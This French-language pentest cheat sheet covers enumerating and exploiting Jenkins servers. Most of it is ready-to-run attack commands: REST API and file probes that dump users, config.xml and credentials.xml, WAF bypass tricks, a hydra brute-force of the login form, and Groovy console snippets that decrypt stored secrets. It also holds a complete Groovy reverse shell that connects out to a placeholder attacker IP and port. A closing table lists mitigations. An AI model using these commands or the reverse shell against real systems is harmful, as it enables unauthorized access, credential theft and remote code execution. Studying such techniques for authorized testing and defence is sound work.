

Ce document détaille les méthodes d'énumération des utilisateurs sur **Jenkins**, en exploitant les API publiques, les erreurs d'authentification, les fichiers accessibles et les endpoints non sécurisés. Ces techniques s'inscrivent dans une démarche de **Web Application Enumeration** et de **Credential Harvesting**.



## Détection de Jenkins

### Identification via headers HTTP
```bash
curl -I http://target.com
```

### Scan de version
```bash
nmap --script http-jenkins-enum -p 8080 <target>
```

### Identification des pages publiques
```bash
curl -s http://target.com/login
```

### Énumération de fichiers et répertoires
```bash
gobuster dir -u http://target.com -w wordlist.txt -x html,txt
```

## Analyse des plugins installés
L'énumération des plugins permet d'identifier des vecteurs d'attaque spécifiques (CVE).
```bash
curl -s http://target.com/pluginManager/api/json?depth=1 | jq '.plugins[] | {shortName, version}'
```

## Recherche d'exploits CVE spécifiques à la version
Une fois la version identifiée, croiser avec les bases de données publiques.
```bash
# Recherche via searchsploit
searchsploit jenkins <version>

# Vérification des bulletins de sécurité officiels
# https://www.jenkins.io/security/advisories/
```

## Techniques de bypass WAF/ACL
Si un WAF bloque les requêtes, tenter de manipuler les headers ou le chemin.
```bash
# Utilisation de headers pour simuler une requête interne
curl -H "X-Forwarded-For: 127.0.0.1" http://target.com/script

# Tentative de bypass par encodage de chemin
curl -s http://target.com/script/..;/
```

## Énumération des Utilisateurs via l’Interface Web

> [!warning]
> L'énumération via **/login** peut déclencher des alertes de sécurité (**WAF**/**IDS**).

### Liste des utilisateurs via interface publique
```bash
curl -s http://target.com/asynchPeople/
```

### Test d'existence via /login
```bash
curl -X POST -d "j_username=admin&j_password=wrongpass" http://target.com/j_acegi_security_check
```

### Test de récupération de mot de passe
```bash
curl -X POST -d "username=admin" http://target.com/securityRealm/forgotPassword
```

### Bruteforce avec **hydra**
```bash
hydra -L users.txt -P passwords.txt http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:F=User not found"
```

## Énumération via l’API REST

> [!info]
> Certaines instances **Jenkins** laissent l'API REST accessible sans authentification.

### Liste des utilisateurs via API REST
```bash
curl -s http://target.com/api/json?tree=users[*]
```

### Extraction d'un utilisateur spécifique
```bash
curl -s http://target.com/user/admin/api/json
```

### Liste des comptes administrateurs
```bash
curl -s http://target.com/securityRealm/api/json
```

### Liste des sessions actives
```bash
curl -s http://target.com/computer/api/json
```

## Énumération via la Console Script

> [!danger] Jenkins RCE via Script Console
> La console **Groovy** (**/script**) permet une exécution de code arbitraire (**RCE**) : danger critique.

### Liste des utilisateurs via console **Groovy**
```groovy
println(hudson.model.User.getAll())
```

### Liste des comptes administrateurs
```groovy
println(Jenkins.instance.getAuthorizationStrategy().getRootACL().getAuthorities())
```

### Liste des identifiants stockés
```groovy
println(hudson.util.Secret.decrypt('encrypted_password_here'))
```

## Post-exploitation : Escalade de privilèges via Script Console
Si l'accès à la console est obtenu, injecter un reverse shell pour obtenir un accès système.
```groovy
String host="<IP>";
int port=<PORT>;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try{p.exitValue();break;}catch(Exception e){};};p.destroy();s.close();
```

## Exploitation des Pages Non Sécurisées

> [!warning]
> Toujours vérifier les permissions de l'utilisateur anonyme avant de lancer des scans intensifs.

> [!danger]
> La présence de **credentials.xml** est une faille critique permettant souvent le dump de secrets chiffrés.

### Vérification de l'accès à la console **Groovy**
```bash
curl -s http://target.com/script
```

### Recherche de fichiers de configuration exposés
```bash
curl -s http://target.com/config.xml
curl -s http://target.com/credentials.xml
```

### Recherche de logs exposés
```bash
curl -s http://target.com/log/all
```

### Vérification des jobs publics
```bash
curl -s http://target.com/job/test/build?delay=0sec
```

## Outils Complémentaires
- **Jenkins-Exploit-Kit** : Pour automatiser le test de vulnérabilités connues.
- **Burp Suite** : Indispensable pour l'analyse des requêtes API et le bypass WAF.
- **Groovy-scripts** : Dépôts GitHub contenant des payloads pour la console script.

## Sécurité & Mitigation

| Mesure | Action |
| :--- | :--- |
| Contrôle d'accès | Restreindre l'API REST aux utilisateurs authentifiés |
| Permissions | Désactiver l'accès anonyme à **/asynchPeople/** et **/user/** |
| Console Script | Limiter l'accès à **/script** aux administrateurs uniquement |
| Monitoring | Surveiller les logs pour détecter des tentatives d'énumération |
| Maintenance | Mettre à jour **Jenkins** pour corriger les vulnérabilités connues |

*Voir également : Jenkins RCE via Script Console, Web Application Enumeration, API Security Testing, Credential Harvesting.*